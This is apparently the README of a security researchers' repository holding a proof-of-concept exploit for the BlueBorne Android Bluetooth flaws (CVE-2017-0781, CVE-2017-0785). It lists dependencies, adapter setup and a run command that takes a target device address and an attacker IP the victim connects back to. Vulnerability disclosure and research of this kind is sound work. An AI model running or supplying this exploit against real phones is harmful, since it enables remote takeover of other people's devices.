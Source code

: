 BlueBorne Android Exploit PoC
=============================

This repository contains a PoC code of BlueBorne's Android RCE vulnerability (CVE-2017-0781).
It also uses the SDP Information leak vulnerability (CVE-2017-0785) to bypass ASLR.
It achieves code execution on a Google Pixel Android smartphone running version 7.1.2 with Security Patch Level July or August 2017.
This code can also be altered a bit in order to target other Android smartphones.

All code can be found under android dir.

For more details you may read the full technical white paper available here:

https://www.armis.com/blueborne/

In addition a detailed blog post on the exploitation of this vulnerability would also go live on Sunday 22nd of October here:

https://www.armis.com/blog/

===============

Dependencies:

    pip2 packages: pybluez, pwn
    
    - sudo apt-get install libbluetooth-dev
    - sudo pip2 install pybluez pwn

    A CSR USB bluetooth adapter. We need to change the MAC address, and so we use a vendor specific HCI command to do this
    for the CSR bluetooth adapter.
    - An alternative adapter can also be used - the only thing to alter is the set_rand_bdaddr function.

To run:

    sudo python2 doit.py hci0 <target-bdaddr> <attacker-ip>

IP needs to be accessible from the victim (should be the IP of the machine that runs the exploit)


